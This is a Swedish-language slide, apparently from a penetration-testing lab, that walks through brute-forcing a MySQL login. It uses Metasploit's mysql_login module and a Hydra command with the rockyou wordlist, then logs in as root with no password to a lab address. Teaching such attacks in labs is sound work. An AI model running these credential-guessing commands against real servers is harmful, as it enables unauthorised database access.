

# Kör attack!
use auxiliary/scanner/mysql/mysql_login
Options som är viktiga här: PASS_FILE, RHOSTS, BLANK_PASSWORDS
Set PASS_FILE: usr/share/wordlists/rockyou.txt
Set BLANK_PASSWORDS: true
Run!

Alternativ med Hydra!
hydra -l root -P /usr/share/wordlists/rockyou.txt -e n ip mysql

Hittar root och inget lösenord!
Testar med:
mysql -u root -h 10.0.2.6 --ssl=FALSE